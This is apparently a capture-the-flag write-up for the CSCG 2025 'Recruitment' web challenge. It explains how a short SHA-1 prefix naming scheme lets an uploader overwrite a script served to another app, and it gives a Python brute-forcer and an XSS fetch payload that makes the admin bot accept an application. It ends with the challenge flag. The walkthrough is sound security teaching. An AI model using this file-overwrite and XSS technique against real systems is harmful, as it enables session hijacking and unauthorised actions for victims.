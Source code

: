 ```yaml
---
title: Recruitment - CSCG 2025 - Write-Up
date: 2025-04-24 10:05:00 +0200
categories: [Cyber Security Challenge Germany]
tags: [web,js,xss,bsi,sha1]
description: Exploit a XSS vulnerability.
image:
  path: /assets/blog/Recruitment/txt.png
  alt: CSCG image
---
```


This is yet another write-up for the challenges of the CSCG 2025 and yet another XSS vulnerability. This is one for the challenge Recruitment, this challenge was created by `TobiNary (BSI)` and rated as medium.

## Description

> Will your application be accepted?
>
> Note: Feel free to use techniques, that lead to high amounts of traffic. But please keep it reasonable and do not DoS us.

This challenge provides you with links to two web applications one on port 5000 the other on port 5004.

## Enumeration of the web app

The port 5004 provides an application page, where you can register and account and submit applications. The web app also allows you to list the applications you submitted. To submit an application you can simply press a button, the app doesn't allow you to submit anything else, it only let's you press a button to do so.

![](/assets/blog/Recruitment/port5004.png)

The listed applications are viewable in the "Show applications" tab:

![](/assets/blog/Recruitment/login.png)

The application on port 5000 provides a small web page and advertises a file uploading service which let's you upload files to the `/service` endpoint using a **put request**.

![](/assets/blog/Recruitment/port5000.png)

The files are uploaded to the `/js` folder and the file gets the name 3 character name ended by the `.js` extension, in my case `954.js`, after uploading. As the description of the file upload service said, there is some hashing algorithm in play.

**Note**: You need to be careful with the new line characters in the request with will result in totally different hashes.

![](/assets/blog/Recruitment/file.png)

To check what partial hash output is I checked a few algorithms, the final one that matched was `sha1`, the first 24 bits of this hash match the file name.

```terminal
$ xxd file    
00000000: 5448 4953 5f49 535f 415f 4649 4c45 0a    THIS_IS_A_FILE.
$ sha1sum file
954a045a86247844889eba5d87bae9962451469b  file
```

The application calculates the hash by generating the **`sha1sum`** of the file and then using these **24 first bits**.

On port 5004 I made the observation that the JS script used in the application is located on the file server.

```html
...
<link rel="stylesheet" href="/static/css.css">
	  <script defer="defer" type="application/javascript" src="https://aaf555d9f8f3158ba8654372-5000-recruitment.challenge.cscg.live:1337/js/1b6.js"></script>
...
```

## Vulnerability

The vulnerability arises because the app for the application submission uses the JavaScript file from the file server where anyone can upload files without authentication.

The file names of the files on the file upload server are generated through a predictable short partial hash, so an attacker is able to overwrite the original JavaScript file used by the application submission app. This is easy for the attacker because the he only needs to brute-force a 3 hex character file name.

This allows **Cross Site Scripting (XSS)** which compromises the application on port 5004.

The attack to achieve the XSS vulnerability is a **Supply Chain Attack**, because you are attacking the hosting service to supply a malicious file to the application submission app. So you are not directly attacking the application submission app.

## Exploit

The vulnerability allows you to craft a malicious JavaScript file. Since the app frequently monitors the applications page using a bot, the code within your JavaScript file gets automatically executed in the bot's web browsing environment.

To find the right hash prefix I build a small Python tool with ChatGPT. This tool will just change data in the file of a predefined string until it finds a hash that matches. The file gets written to `out.js`, so if something valid is found the payload can just be copied from the file.

```python
import hashlib
import itertools
import string

def replace_and_check(input_file, output_file, target_pattern):
    word_to_replace = "BRUTE"
    characters = string.ascii_uppercase

    for replacement in itertools.product(characters, repeat=len(word_to_replace)):
        new_word = ''.join(replacement)

        with open(input_file, "r") as f:
            content = f.read()

        modified_content = content.replace(word_to_replace, new_word)

        with open(output_file, "w") as f:
            f.write(modified_content)

        sha1_hash = hashlib.sha1()
        with open(output_file, "rb") as f:
            while chunk := f.read(4096):
                sha1_hash.update(chunk)

        hash_hex = sha1_hash.hexdigest()
        last_three_chars = hash_hex[:3]

        print(f"Replacing 'BRUTE' with '{new_word}' -> SHA-1: {hash_hex} | Last 3 hex: {last_three_chars}")

        if last_three_chars == target_pattern:
            print("Pattern matched! Stopping.")
            break
        else:
            print("Pattern not matched, retrying...\n")

replace_and_check("payload.js","output.js", "1b6")
```

While looking further for any possible way to get the flag I found this code on the application page (If you click on one of your applications).

```html
<section class="nes-container with-title hidden">
	<h3 class=title>Admin menu</h3>
	<div class=item>
<form action="/application/1" method="post">
	<input class="nes-btn is-success" id="accept" name=action type=submit value="Accept" />
	<input class="nes-btn is-error" id="decline" name=action type=submit value="Decline" />

</form>
	</div>
</section>
```

There is a admin menu, the form allows the admin to accept or decline the application. You could use the XSS vulnerability to use the bots browser to accept your application, which will potentially return the flag.

```js
fetch(`/application/1`, {method: 'POST',headers: {'Content-Type': 'application/x-www-form-urlencoded',},body: 'action=Accept',credentials: 'include'}).then(response => response.text()).then(data => console.log(data)).catch(error => console.error('Error:', error));
x="BRUTE"
```
**Note:** I used a one-liner, because this allows me to replace less `\n\r`'s with `\n`'s'

I used the `BRUTE` value to find some characters which will produce the hash. To find the right value I run my small Python program.

I next copied the payload with the right hash found by the script to my Burp Suite Repeater Tab. Then the final action is to fix the new lines. By default in Burp Suite, if you paste data it will transform a simle new line (`0a`) to a carriage return (`0d0a`).
![](/assets/blog/Recruitment/final.png)


If the payload overwrites the right file it should take a few seconds and the application will be accepted.

**Note:** You may not recognize the flag but its right after accepted in the brackets.

![](/assets/blog/Recruitment/accept.png)

The flag can be found below.


Flag:
```
CSCG{C0ngr4tz_0n_th3_n3w_j0b}
```
